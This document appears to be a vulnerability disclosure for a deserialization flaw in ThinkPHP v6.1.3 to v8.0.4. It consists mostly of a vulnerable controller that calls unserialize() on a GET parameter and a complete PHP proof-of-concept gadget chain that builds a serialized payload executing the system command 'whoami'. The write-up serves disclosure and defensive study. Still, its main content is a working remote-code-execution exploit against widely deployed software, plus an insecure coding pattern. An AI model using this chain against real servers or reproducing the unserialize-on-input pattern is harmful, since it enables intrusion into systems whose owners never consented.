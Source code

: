 

## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```php
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "whoami"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\Pivot;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new Pivot(new Pivot());
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));
```

Use the payload to deserialize can result to RCE:



![image-20240912092112199](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912092112199.png)

